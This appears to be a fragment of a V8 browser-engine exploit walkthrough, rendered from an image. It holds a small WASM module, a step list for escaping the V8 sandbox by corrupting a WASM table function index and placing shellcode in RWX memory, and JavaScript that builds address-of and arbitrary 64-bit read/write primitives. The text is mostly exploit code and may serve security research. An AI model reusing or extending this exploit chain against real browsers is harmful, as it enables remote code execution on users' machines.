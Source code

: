 ```wasm 
(module ;; WASM Module 0
 (func $indirect (result f32)
 f32.const 0.015
 )
 (export "indirect" (func $indirect))
)
```
Next, we can set that function into the WASM Table we created and we can create another
WASM Module that is calling indirectly the export function from the table.


```
Modifies the function index to point to controlled memory
Swaps Module 2 with Module 0 to Escape
Sets up shellcode in WASM RWX memory
Triggers the exploit through the indirect call
```


```javascript
function ToHex(big_int) {
    return "0x" + big_int.toString(16);
}

function smi(i) {
    return i << 1n;
}

// Setup sandbox memory view for read/write primitives  
let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

// Memory primitives / v8 utils
function addrOf(obj) {
    return Sandbox.getAddressOf(obj);
}

function v8_read64(addr) {
    return sandboxMemory.getBigUint64(Number(addr), true);
}

function v8_write64(addr, val) {
    return sandboxMemory.setBigInt64(Number(addr), val, true);
}

// Step 1: Create WASM Table for indirect function calls 
const rtb = new WebAssembly.Table({
    initial: 1,
    element: "anyfunc",
    maximum: 10
});

const importObject = {
    env: { rtb }
};

// Step 2: Create first WASM module (Module 0) with simple float return
let wasm_code_0 = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x05, 0x01, 0x60,
    0x00, 0x01, 0x7d, 0x03, 0x02, 0x01, 0x00, 0x07, 0x0c, 0x01, 0x08, 0x69,
    0x6e, 0x64, 0x69, 0x72, 0x65, 0x63, 0x74, 0x00, 0x00, 0x0a, 0x09, 0x01,
    0x07, 0x00, 0x43, 0x8f, 0xc2, 0x75, 0x3c, 0x0b
]);

let wasm_mod_0 = new WebAssembly.Module(wasm_code_0);
let wasm_instance_0 = new WebAssembly.Instance(wasm_mod_0);
```